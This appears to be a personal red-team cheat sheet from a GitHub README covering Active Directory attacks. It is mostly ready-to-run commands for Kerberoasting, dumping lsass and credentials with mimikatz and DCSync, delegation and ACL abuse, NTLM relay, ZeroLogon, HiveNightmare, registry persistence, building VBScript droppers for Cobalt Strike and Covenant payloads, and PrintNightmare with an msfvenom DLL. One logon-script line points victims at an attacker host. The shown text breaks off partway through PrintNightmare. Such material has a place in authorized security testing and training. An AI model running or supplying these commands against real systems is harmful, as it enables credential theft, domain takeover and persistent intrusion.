









# Arsenals

This is my personal safe for arsenals. Feel free to refer and use at anytime. You can also refer to this [arsenals](arsenals) for any extra commands (`Ctrl+f` will definitely help)

**_Disclaimer: Do not use this command for illegal use. Any action you take upon the information on this repo is strictly at your own risk_**

* **[ACLs/ACEs permissions](#acls-possible-abuse)**
* **[LDAP Filters as alternative](#ldap-filters)**
* **Enumeration**
	* **[Domain Enumeration](#powerview-enumeration)**
		* [Forest Trust](#forest-trust)
		* [ASREP Roasting](#asrep-roasting)
		* [Kerberoasting](#kerberoasting)
		* [Unconstrained / Constrained Object](#unconstrained--constrained-object)
	* **[Constrained Language Mode](#constrained-language-mode)**
		* [CLM Enumeration](#clm-enumeration)
		* [Dump lsass with rundll32](#dump-lsass-process-with-signed-binary)
* **Delegation**
	* [Unconstrained Delegation](#unconstrained-delegation)
		* [Printer Bug](#printer-bug)
		* [Extract TGTs](#extract-tgt)
	* [Constrained Delegation](#constrained-delegation)
		* [s4u Delegation](#s4u-delegation)
	* [Resource-Based Constrained Delegation](#resource-based-constrained-delegation)
* **[ACLs/ACEs Abuse](#acls/aces-abuse)**
	* [ForceChangeUserPassword](#force-change-user-password)
	* [Change Password (with PSCredential](#change-password-with-credential)
	* [Targeted Kerberoast](#targeted-kerberoast)
	* [Add DCsync privilege to object](#add-dcsync-to-object)
	* [Add Users to Group](#add-users-to-group)
* **[Weak GPO Permission](#weak-gpo-permission)**
	* [Enumerate weak GPO Permission](#enumerate-weak-gpo-permission)
	* [GPO Abuse with PowerView](#gpo-abuse-with-powerview)
* **[SQL Server Enumeration and Code Execution (PowerUpSQL)](#sql-server-enumeration-and-code-execution)**
	* [Get SQL Instances](#get-sql-instances)
	* [Get SQL Linked Server](#get-sql-linked-server)
	* [Execute SQL Query and OS Command](#execute-sql-query-and-os-command)
* **[Abuse Forest Trust](#abuse-forest-trust)**
	* [SID History](#sid-history)
	* [Shadow Principal](#shadow-principal)
	* [Foreign Principal](#foreign-principal)
* **[Lateral Movement / Post Exploitation](#lateral-movement--post-exploitation)**
	* [Overpass-The-Hash](#overpass-the-hash-opth)
	* [Request TGT](#request-tgt)
	* [runas](#runas)
	* [NTLM Relay](#ntlm-relay)
	* [Credential Harvesing](#credential-harvesting)
		* [DCSync](#dcsync)
* **[Persistence](#persistence)**
	* Golden Ticket
	* Skeleton Keys
	* Shortcuts
	* msDS-AllowedToDelegateTo
	* Scheduled Tasks 
	* AdminSDHolder
	* Registry Keys
		* [Execute on startup](#execute-on-startup)
		* Recycle Bin
	* [krbtgt Constrained Delegation](#krbtgt-constrained-delegation)
* **[Remote Access](#remote-authentication-protocol)**
	* [PSRemoting](#ps-remoting)
	* [Winrs](#winrs)
	* [PsExec](#psexec)
	* [WMI](#wmi)
	* [DCOM](#dcom)
* **[Generate VBScript dropper (APC process injection)](#generate-vbscript-dropper-apc-process-injection)**
	* [Cobalt Strike Beacon](#cobalt-strike-beacon)
	* [Covenant Grunt](#convenant-grunt)
* **[Low Hanging Fruits](#low-hanging-fruits)**
	* [ZeroLogon](#zerologon)
	* [HiveNightmare](#hivenightmare)
* **[PrintNightmare](#printnightmare)**
* **[noPac](#nopac)**
* **[PKI Abuse](#pki-abuse)**
* **[File Transfer](#file-transfer)**
* **[Reverse Shells](#reverse-shells)**
	* [php](#php-reverse-shell)
	* [perl](#perl-reverse-shell)
	* [nodejs](#nodejs-reverse-shell)
	* [c](#c-reverse-shell)
	* [c#](#c-sharp-reverse-shell)
	* [jenkins](#jenkins-reverse-shell)
	* [lua](#lua-reverse-shell)
	* [jsp](#jsp-reverse-shell)


## ACLs possible abuse
ACL/ACE | Object | Permission | Abuse | ScreenShot
--- | --- | --- | --- | ---
**GenericAll** | User  | Full rights | [Force change user's password](#force-change-user-password), [Targeted Kerberoast](#targeted-kerberoast), Shadow Credentials | 
**GenericAll** | Group  | Full rights | [Self add to group](#add-users-to-group) | 
**GenericAll** | Computer  | Full rights | [RBCD](#resource-based-contrained-delegation) | 
**GenericWrite</br>WriteProperty** | User | Write/update object's attributes | [Targeted Kerberoast](#targeted-kerberoast), [Overwrite Logon Script](#overwrite-logon-script) | 
**GenericWrite** | Group | ability to self add to group | [Self add to group](#add-users-to-group) | 
**GenericWrite</br>WriteProperty** | Computer | Write/update object's attributes | [RBCD](#resource-based-constrained-delegation) |
**GenericWrite</br>AllExtendedWrite</br>GenericAll</br>WriteOwner</br>WriteProperty** | GPO | Write object's properties | [Add self to local admin](#gpo-abuse-with-powerview) |
**WriteDACL** | Domain | modify object's ACE (full control) | [Give owned users DCsync Privilege](#add-dcsync-to-object) |
**WriteOwner** | User  | change owner/password | [Change user's password with credential](#change-password-with-credential) |
**Self-Membership/Self** | Group | ability to add ourself to the group | [Self add to group](#add-users-to-group) |
**ExtendedRights** | User  | change user's password | [Force change user's password](#force-change-user-password) | 
**ExtendedRights** | Group  | Read LAPS Password | [Read LAPS Password](#read-laps-local-administrator-password) |
**User-Force-Change-Password** | User | change user's password | [Force change user's password](#force-change-user-password) | 

## LDAP Filters
| PowerView | Description                    | LDAP Filter
| ------------- | --------------- | ------------ |
| `Get-DomainController`| Get current domain controller      |`(userAccountControl:1.2.840.113556.1.4.803:=8192)`|
| `Get-Forest` |Get current forest|`[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`|
| `Get-DomainUser` | Get all domain users |`(&(samAccountType=805306368))`
| `Get-DomainUser -TrustedToAuth` |Get trusted users for delegation|`(&(samAccountType=805306368)(msds-allowedtodelegateto=*))`
| `Get-DomainUser -SPN` |Get non-null users' SPN|`(&(samAccountType=805306368)(servicePrincipalName=*))`
| `Get-DomainUser -PreAuthNotRequired` |Get users that disable preauth|`(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))`
| `Get-DomainGroup` |Get all domain groups|`(&(objectCategory=group))`
| `Get-DomainGroup *admin*` |Get specific domain group identity|<code>(&(samAccountType>(&(samAccountType=805306368)(&#124;(samAccountName=*admin*)))</code>
| `Get-DomainComputer` |Get all domain computers|`(&(samAccountType=805306369))`
| `Get-DomainComputer -Unconstrained` | Get all unconstrained domain computers|`(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))`
| `Get-DomainGPO` | Get all domain GPO|`(&(objectCategory=groupPolicyContainer))`

Example use:
```
# Current domain context
([adsisearcher]"<ldap-filter>").FindAll()

# Other domain context
$adsiSearcherObj = [adsisearcher]""
$adsiSearcherObj.SearchRoot = [ADSI]"LDAP://DC01/DC=legitcorp,DC=local"
$adsiSearcherObj.Filter = "<ldap-filter>"
$adsiSearcherObj.FindAll()
```
_Note: These LDAP filters can be used with `[adsisearcher]` builtin function in powershell. Any extra commands can be found [here](https://mlcsec.com/active-directory-domain-enumeration-part-2). Amazing cheatsheet by [@mlcsec](https://twitter.com/mlcsec)_

## Domain Enumeration
### Forest Trust
```
# Map all domain trusts
Get-DomainTrustMapping -Verbose

# Get Forest Trust from current domain
Get-DomainTrust
```
### ASREP Roasting
```
Get-DomainUser -PreauthNotRequired
```
### Kerberoasting
```
# Powerview
Get-DomainUser -SPN

# Rubeus
Rubeus.exe kerberoast /nowrap
```
### Unconstrained / Constrained Object
```
# unconstrained computer
Get-DomainComputer -Unconstrained -Properties name

# Constrained user/computer
Get-DomainComputer -TrustedToAuth -Properties name,msds-allowedtodelegateto
Get-DomainUser -TrustedToAuth -Properties name,msds-allowedtodelegateto
```
You can abuse these delegation permission by referring [here](#unconstrained-delegation)

## Constrained Language Mode (CLM) / WDAC / Device Guard
### CLM Enumeration
```
$ExecutionContext.SessionState.LanguageMode
```
### View AppLocker Rules
```
Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections
```
### Dump lsass process with signed binary
This method will bypass CLM to dump lsass since we are using MS signed binary (whitelisted)
```
# Run this in victim/remote computer
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\Windows\Tasks\lsass.dmp full

# Use pypykatz
pypykatz lsa minidump lsass.dmp

# Use mimikatz's minidump
mimikatz# sekurlsa::minidump <Path_to_file>\lsass.dmp
mimikatz# sekurlsa::logonpasswords
```

## Unconstrained Delegation
### Printer Bug
Using spooler service to authenticate between domain computers(that runs spooler svc). Attackers can monitor incoming tickets with `Rubeus`.

1. Verify that remote computer has spooler service running
```
ls \\dc01.contoso.local\pipe\spoolss
```

2. Download spoolsample [here](https://github.com/leechristensen/SpoolSample) and run the following command to authenticate and capture ticket.
```
# run this on domain joined computers
spoolsample.exe dc01.contoso.local ms01.contoso.local

# monitor ticket
Rubeus.exe monitor /interval:5
```

### Extract TGT
Since unconstrained computers will save users tgt (logged in users). We will extract this keys and able to impersonate them.
```
mimikatz# sekurlsa::tickets /export
Rubeus.exe ptt /ticket:ticket.kirbi
```

## Constrained Delegation
### s4u delegation
This attack is possible if _msds-AllowedToDelegateTo_ is set.
* with rc4 hash in hand
```
# Request TGT + TGS
Rubeus.exe s4u /user:attacker /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:time/dc01 /altservice:cifs,host,http /domain:contoso.local /dc:dc01.contoso.local /ptt
```
* with owned user session (not knowing his rc4)
```
# Request for ticket
Rubeus.exe tgtdeleg /nowrap

# Request TGS with base64 blob ticket
Rubeus.exe s4u /user:attacker /ticket:<base64-blob> /impersonateuser:administrator /msdsspn:time/dc01 /altservice:cifs,http,host /domain:contoso.local /dc:dc01.contoso.local /ptt
```

## Resource-Based Constrained Delegation
This attack is possible if owned user/computer object has _GenericWrite_ or write privilege to user/computer object attributes. Since we have write privilege, we can write to _msds-allowedtoactonbehalfofotheridentity_ property.
1. Import ADModule
2. Set _msds-allowedtoactonbehalfofotheridentity_ to owned computer/user objects.
```
Set-ADComputer -Identity dc01 -PrincipalsAllowedToDelegateToAccount (Get-ADComputer mycomputer)
```
3. Get mycomputer$ ntlm hash or aes keys
```
mimikatz# sekurlsa::logonpasswords
```
4. Apply s4u delegation (TGT+TGS)
```
Rubeus.exe s4u /user:mycomputer$ /rc4:<rc4/ntlm hash> /impersonateuser:administrator /msdsspn:http/dc01 /altservice:cifs /ptt
```

## ACLs/ACEs Abuse
### Force Change User Password
_Note: This doesn't require you to know the owned user's credential_
```
Set-DomainUserPassword -Identity studentadmin -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!')
```

### Change password with credential
_Note: Need to know owned user's password_
```
# Create PSCredential Object
$username='contoso\administrator'
$password=ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)

# Change password with PSCredential
Set-DomainUserPassword -Identity studentadmin -Domain contoso.local -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'password123!') -Credential $cred
```

### Add Users to Group
```
Add-DomainGroupMember -Identity studentadmins -Members studentuser
```

### Targeted Kerberoast
This technique will update `ServicePrincipalName` of a user object. Make sure to have a write permission on the user's attributes.
```
# Set SPN
Set-DomainObject -Identity sqlsvc -Set @{serviceprincipalname='my/sqlspn'}

# Clear SPN (OPSEC)
Set-DomainObject -Identity sqlsvc -Clear serviceprincipalname
```

### Overwrite Logon Script
Logon Script will run everytime user logged in._(note: use ad module)_
```
Set-ADObject -SamAccountName  -PropertyName scriptpath -PropertyValue "\\attackerip\script.ps1"
```

### Add DCSync Privilege to object
```
Add-DomainObjectAcl -TargetIdentity "DC=contoso,DC=local" -PrincipalIdentity studentuser -Rights DCSync
```

### Read LAPS Local Administrator Password
This will only possible if you have _AllExtendedRights_ permission on a computer object.
```
Get-DomainComputer -Properties ms-mcs-admpwd
```

## Weak GPO Permission
### Enumerate weak GPO Permission
```
# Domain wide
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs | ? {$_.activedirectoryrights -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner"}}

# specific user (based on user's sid)
Get-DomainGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name | ? {$_.ActiveDirectoryRights -match "GenericWrite|AllExtendedWrite|WriteDacl|WriteProperty|WriteMember|GenericAll|WriteOwner" -and $_.securityidentifier -match "<userssid>"}}
```

### GPO Abuse with PowerView
```
# Execute specific tasks
New-GPOImmediateTask -TaskName Debugging -GPODisplayName VulnGPO -CommandArguments 'net.exe localgroup administrators dummyuser /add' -Force

# update GPO (must run)
gpoupdate /force
```

## SQL Server Enumeration and Code Execution
I did most of my SQL Server Enumeration by using this [PowerUpSQL.ps1](https://github.com/NetSPI/PowerUpSQL) script. Refer to more commands in this [PowerUpSQL Cheatsheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
### Get SQL Instances
This method will allow you to enumerate local or domain sql servers(if any).
```
# Get Local Instance
Get-SQLInstanceLocal -Verbose

# Get Domain Instance
Get-SQLInstanceDomain -Verbose
```
### Get SQL Linked Server
This command will allow you to enumerate linked sql server to selected instance. Output of the command also shows privilege that you currently have on specific sql server
```
# Enumerate Linked Server (show just instace and priv)
Get-SQLServerLinkCrawl -Instance mssql-srv.contoso.local

# Enumerate Linked Server and Execute SQL Query
Get-SQLServerLinkCrawl -Instance mssql-srv.contoso.local -Query 'exec master..xp_cmdshell ''whoami'''
```
### Execute Remote SQLQuery
_Prerequisite:_
* Make sure you are **sa** user (high privileged user)
* Make sure to enable `xp_cmdshell` before executing os command
```
# Enable xp_cmdshell
Get-SQLQuery -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "DB-SQLSRV"'

# Execute OS command
Get-SQLQuery -Query 'EXECUTE(''xp_cmdshell ''''whoami'''''') AT "DB-SQLSRV"'
Invoke-SQLOSCmd -Instance DB-SQLSRV -Command "whoami"
```
## Abuse Forest Trust
### SID History
1. Make sure SID History is enabled
```
Get-DomainTrust
```
If _TREAT\_AS\_EXTERNAL_ flag is set in **trustAtrributes** property, that means SID History is enabled

2. Forge Inter-Realm TGT with extra sids. We injected sid of trusted domain users with RID > 1000
```
mimikatz# kerberos::golden /user:administrator /domain:contoso.local /sid:<domain-sid> /rc4:<trust-key> /service:krbtgt /target:fortress.local /sids:<victim-user-sid> /ticket:<path>\ticket.kirbi
```
3. Asktgs with the generated kirbi ticket
```
Rubeus.exe asktgs /ticket:<path>\ticket.kirbi /service:HTTP/dc02.contose.local /dc:dc02.contoso.local /ptt
```

### Shadow Principal/PAM Trust
The users in current forest can be "mapped" to privileged group like Domain Admins and Enterprise Admins. Use below command to enumerate _Shadow Principal_
```
Get-ADObject -Filter * -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) | select Name,member,msDS-ShadowPrincipalSid | fl
```
* `name` = Name of the shadow security principal
* `member` = member of group/user in the bastion domain
* `msds-ShadowPrincipalSid` = The SID for production domain group/user

### Foreign Principal
Foreign principal means other user(s) from trusted domain that have access to current domain resources
```
# Get foreign user principals
Find-ForeignUser

# Get foreign group principals
Find-ForeignGroup
```

## Lateral Movement / Post Exploitation
***
### Overpass-The-Hash (OPTH)
_Note: This requires local administrator privilege_
```
# NTLM hash
mimikatz# sekurlsa::pth /user:administrator /ntlm:<ntlm hash> /domain:CONTOSO /run:powershell.exe

# AES256 key
mimikatz# sekurlsa::pth /user:administrator /aes256:<aes256 key> /domain:CONTOSO /run:powershell.exe
```

### Request TGT
_Note: This will be log by the KDC_
```
# With plain-text
Rubeus.exe asktgt /user:administrator /password:P@$$w0rd! /domain:contoso /ptt

# With RC4 hash
Rubeus.exe asktgt /user:administraot /rc4:<rc4-hash> /domain:contoso /ptt

# Linux
getTGT.py legitcorp.local/lowpriv:'P@$$w0rd' -dc-ip 192.168.86.170
export KRB5CCNAME=lowpriv.ccache
```

### runas
This method will spawn a new process as the user. This wont validate your password, so make sure you enter it right. Slowly but surely :)
```
runas /user:contoso\administrator /netonly powershell
```

### NTLM Relay
_Note: This attack will only work if SMB signing if disabled. This can be verify with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) or any similar tools_

1. Disable **SMB** and **HTTP** in `/etc/Responder.conf`
2. Fire up responder. **SMB** and **HTTP** protocol now should now show as [OFF]
```
Responder.py -I eth0 -rdvw
```
3. Create a targets.txt file containing targeted ip addresses. `ntlmrelayx.py` will run captured hash to every protocol available on the given ip addresses
```
all://192.168.0.10
all://192.168.0.11
```
4. Run `ntlmrelayx.py`
```
ntlmrelayx.py -tf targets.txt -smb2support -socks
```
5. Authenticate with any available Impacket scripts through `proxychains` and supply no password
```
# PsExec
proxychains Psexec.py contoso/administrator:''@192.168.0.10

# mssqlclient
proxychains mssqlclient.py contoso/sqlsvc:''@192.168.0.15 -windows-auth -debug
```

### Credential Harvesting
### DCSync
```
# Dump all available domain users
mimikatz# lsadump::dcsync /domain:fqdn /all /csv

# Dump for specific user
mimikatz# lsadump::dcsync /domain:fqdn /user:krbtgt

# Dump (if no privileged user session)
lsadump::dcsync /domain:contoso.local /dc:dc01 /user:administrator /authuser:dc01$ /authdomain:contoso.local /authpassword:"" /authntlm
```

## Persistence

### Registry Keys

i. Execute on startup
There are several registry keys can be added to execute binary on startup based on your need and current user context. 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
1. Add a new value to one of the KeyName above 
```
reg.exe add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v RunMe /t REG_SZ /d "C:\Users\Public\mybinary.exe"
```

## krbtgt Constrained Delegation
1. Add a new computer account with [addcomputer.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/addcomputer.py). This steps would require a domain account with a privilege to create computer account. (Domain objects are allowed to create up to 10 computer accounts in a domain as per default configuration). 
```
addcomputer.py -computer-name FakeComputer -computer-pass 'Passw0rd' -dc-ip 192.168.86.170 legitcorp.local/lowpriv:'P@$$w0rd!xyz'
```
2. Set the _msDS-AllowedToDelegateTo_ attribute to `krbtgt/legitcorp`. [setCD.py](https://gist.githubusercontent.com/snovvcrash/c8f8fa7721c40f4cca0c46c196066a41/raw/3ddd82ab44048d0fe8530ae2da87199cdc70779f/setCD.py) is a script by [@snovvcrash](https://twitter.com/snovvcrash)
```
setCD.py legitcorp.local/Administrator:'P@$$w0rd!xyz' -dc-ip 192.168.86.170 -target 'FakeComputer$' -spn krbtgt/legitcorp
```
3. Request service ticket for the created computer by impersonating domain controller computer account (s4u delegation).
```
# request service ticket
getST.py -spn krbtgt/legitcorp legitcorp.local/FakeComputer\$:'Passw0rd' -dc-ip 192.168.86.170 -impersonate 'DC01$'

# export ticket into environment variable
export KRB5CCNAME='DC01$.ccache'
```
4. Perform DCSync on the domain controller
```
secretsdump.py legitcorp.local/DC01\$@dc01.legitcorp.local -dc-ip 192.168.86.170 -just-dc -k -no-pass
```

## Remote Authentication Between Computers
### PS Remoting
**PS Remoting** stands for PowerShell remoting, this will enable users to authenticate between powershell session in remote computers by using `*-PSSession`.
```
# Create New PSRemoting Session (with current user privilege/no PSCredential needed)
$sess = New-PSSession -ComputerName dc01

# Create New PS Remoting Session (with plain-text password/PSCredential needed)
$username = 'contoso\studentadmin'
$password = ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)
$sess = New-PSSession -ComputerName dc01 -Credential $cred

# Get Interactive Remote Session
Enter-PSSession -ComputerName dc01
Enter-PSSession -ComputerName dc01 -Credential $cred
Enter-PSSession -Session $sess
```

### Winrs
Winrs requires a plain-text password in order to authenticate to other computers
```
winrs -u:dc01.contoso.local -u:contoso\administrator -p:P@$$w0rd! "hostname"
```

### SMB 
**PsExec**
This requires you to download MS Signed Binary (`PsExec.exe`) in PsTools bundle. It can be downloaded [here](https://download.sysinternals.com/files/PSTools.zip).
```
# windows
PsExec.exe -accepteula \\dc01.contoso.local powershell

# linux
psexec.py legitcorp.local/Administrator@192.168.0.110
```
**SMBExec**
```
smbexec.py legitcorp.local/Administrator@192.168.0.110
```

### WMI
```
wmiexec.py legitcorp.local/Administrator@192.168.0.110
```

### DCOM
ShellBrowserWindow object can be leverage for remote code execution over DCOM. Please note that this requires authentication (e.g. runas netonly)
```
PS> $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

### Reference
* https://dolosgroup.io/blog/remote-access-cheat-sheet

## Generate VBScript dropper (APC process injection)
Make sure to download [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript.git) and [Donut](https://github.com/TheWover/donut.git)._Note:This method probably won't 100% bypass EDR/AV._
### Cobalt Strike Beacon
For cobalt strike, this aggressor script called [**ShellCode Generator**](https://github.com/RCStep/CSSG) is very useful to generate shellcode with custom formatting. This cna also helps to obfuscate with XOR or AES method.

1. Generate shellcode and this is my default configuration


2. Use [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script and paste those hex bytes in `shellcode` variable


3. Compile with **GadgetToJScript**

```powershell
GadgetToJScript.exe -b -w vbs -o beacon -c .\real.cs
```

4. Execute with `wscript.exe beacon.cs`

### Covenant Grunt
For covenant, since its already has its built in .NET generator. You can use donut to further obfuscate the assembly/

1. Generate **binary** from Covenant
2. Obfuscate and convert to byte array with **Donut**. It will then generate into .bin file.
```powershell
donut.exe -f .\Grunt.exe
```
3. Convert .bin file to base64 and save to clipboard
```powershell
# save filepath to a variable
$filename='<file-path-to>\payload.bin'
# Convert file to base64 and save to clipboard
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename) | Clip
```
4. Download [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script, save as payload.cs (or anythin bcs no one cares) and replace the `b64` variable with our current clipboard
5. Convert payload.cs to vbs with **GadgetToJScript**
```powershell
.\GadgetToJScript.exe -b -w vbs -o realtest -c .\real.cs
```
6. Execute on remote computer
```powershell
wscript.exe .\realtest.vbs
```
## Extra Red Teaming Tools (that i know of xD)
* [MacroPack](https://github.com/sevagas/macro_pack) - Generate obfuscated Office Macro
* [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) - Check for signature based detection, this support AMSI check as well
* [ADConnect Dump](https://github.com/fox-it/adconnectdump) - Dumps Azure On-Prem ADConnect

## Low Hanging Fruits
### ZeroLogon
Set the computer account's password to null allowing attackers to perform [DCSync](#dcsync) attack with null authentication
1. Run exploit script [here](https://github.com/risksense/zerologon.git)
```
python3 set_empty_pw.py DC01 10.10.10.10
```

2. Perform DCSync with null auth
```bash
python3 secretsdump.py -just-dc -no-pass testlab/DC01\$@10.10.10.10
```

### HiveNightmare
1. Check if system is vulnerable with the following commands
```
# Check if BUILTIN/Users has read permission
icacls C:\Windows\System32\config\SAM

# Check if shadow copy is available
vssadmin list shadows
```

2. Dump SYSTEM Hive with mimikatz
```
# mimikatz (On remote computer)
mimikatz# lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# secretsdump.py (Local)
secretsdump.py -sam SAM-file -system SYSTEM-file LOCAL
```

Note that the above methods is the manual way. This has been implemented in a automated C# code called [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare). Once you retrieve admin's ntlm, you can do lots of stuff including [changing password](https://twitter.com/gentilkiwi/status/1417467063883476992) or [Pass The Hash](#overpass-the-hash-opth)/PsExec/Evil-Winrm...

## PrintNightmare
Abusing printer spooler service (CVE-2021-34527) to load malicious DLL and execute as SYSTEM. Available POCs can be found here
| Link          | Authors         |Language|
| ------------- | ------------- | ----- |
| https://github.com/cube0x0/CVE-2021-1675      | [@cube0x0](https://twitter.com/cube0x0) | python, c# |
| https://github.com/calebstewart/CVE-2021-1675      | [@calebsteward](https://twitter.com/calebjstewart)      |  PowerShell |

1. Generate `msfvenom` payload
```
msfvenom -p windows/x64/exec CMD="net.exe localgroup administrators testuser /add" -f dll -o test.dll
```

2. Run these commands _(either one)_
```
# Powershell
Import-Module .\cve-2021-1675.ps1
